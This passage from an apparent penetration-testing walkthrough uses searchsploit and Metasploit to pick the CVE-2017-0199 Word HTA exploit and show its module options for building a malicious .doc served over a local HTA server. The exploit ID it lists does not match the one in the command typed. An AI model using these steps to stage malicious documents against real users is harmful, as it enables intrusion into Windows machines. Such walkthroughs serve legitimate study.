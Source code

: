 ```
Microsoft Word - '.RTF' Remote Code Execution                                                       | exploits/windows/remote/41894.py
Microsoft Word - '.RTF' pFragments Stack Buffer Overflow (File Format) (MS10-087) (Metasploit)      | exploits/windows/local/16686.rb
Microsoft Word - RTF Object Confusion (MS14-017) (Metasploit)                                       | exploits/windows/local/32793.rb
Microsoft Word 2007 - RTF Object Confusion (ASLR + DEP Bypass)                                      | exploits/windows/local/36207.py
---------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```

Okay, good enough. Most of these seem pretty old (MS10-087, MS14-017, Microsoft Word 2007...), but the first one sounds better. And also it's available in Metasploit, which is great if you are a script kiddie like me! A quick inspection of the exploit file with `searchsploit -x 41934` reveals the CVE field (`2017-0199`), which apart from looking more recent is a fantastic field for searching in Metasploit. Let's give it a try:

```
# msfdb run

msf > search CVE-2017-0199

Matching Modules
================

   Name                                        Disclosure Date  Rank       Check  Description
   ----                                        ---------------  ----       -----  -----------
   exploit/windows/fileformat/office_word_hta  2017-04-14       excellent  No     Microsoft Office Word Malicious Hta Execution
```

Great, we got our candidate exploit, let's see what it does:

```
msf > use exploit/windows/fileformat/office_word_hta

msf exploit(windows/fileformat/office_word_hta) > show options

Module options (exploit/windows/fileformat/office_word_hta):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   FILENAME  msf.doc          yes       The file name.
   SRVHOST   0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT   8080             yes       The local port to listen on.
   SSL       false            no        Negotiate SSL for incoming connections
   SSLCert                    no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH   default.hta      yes       The URI to use for the HTA file


Exploit target:

   Id  Name
   --  ----
   0   Microsoft Office Word
```

